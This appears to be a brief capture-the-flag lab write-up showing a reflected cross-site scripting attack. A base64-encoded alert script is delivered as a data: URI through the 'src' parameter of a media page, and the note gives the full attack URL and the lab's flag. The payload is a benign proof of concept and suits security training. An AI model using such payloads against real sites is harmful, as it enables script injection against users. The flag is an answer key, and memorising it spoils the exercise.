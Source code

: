 
```
echo "<script>alert(1337)</script>" | base64
PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=
```

<object data="http://10.12.100.231/images/nsa_prism.jpg"> </object>

data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

url:

http://10.12.100.231/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pgo=

flag `928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D`

https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/